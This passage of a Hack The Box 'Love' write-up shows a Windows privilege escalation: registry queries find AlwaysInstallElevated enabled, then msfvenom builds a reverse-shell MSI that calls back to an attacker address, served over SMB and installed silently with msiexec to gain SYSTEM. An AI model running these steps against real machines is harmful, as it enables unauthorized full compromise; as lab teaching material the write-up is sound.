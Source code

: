 ## Privilege Escalation
Local enumeration reveals that the *AlwaysInstallElevated* flag was enabled both for the current user and the local machine, permitting to install malicious `.msi` with SYSTEM privileges:
```powershell
C:\temp>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1


C:\temp>reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer

HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1


C:\temp>reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer

HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

Generated the malicious installer:
```bash
┌──(kali㉿kali)-[~/…/HTB/box/Love/exploit]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.105 LPORT=10099 -f msi -o privesc.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: privesc.msi

┌──(kali㉿kali)-[~/…/HTB/box/Love/exploit]
└─$ sudo impacket-smbserver kali . -smb2support                                          
[sudo] password for kali:
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
...
```

Downloaded and installed the malicious file:
```powershell
C:\temp>copy \\10.10.14.105\kali\privesc.msi privesc.msi
copy \\10.10.14.105\kali\privesc.msi privesc.msi
        1 file(s) copied.

C:\temp>msiexec /quiet /qn /i privesc.msi
msiexec /quiet /qn /i privesc.msi
```
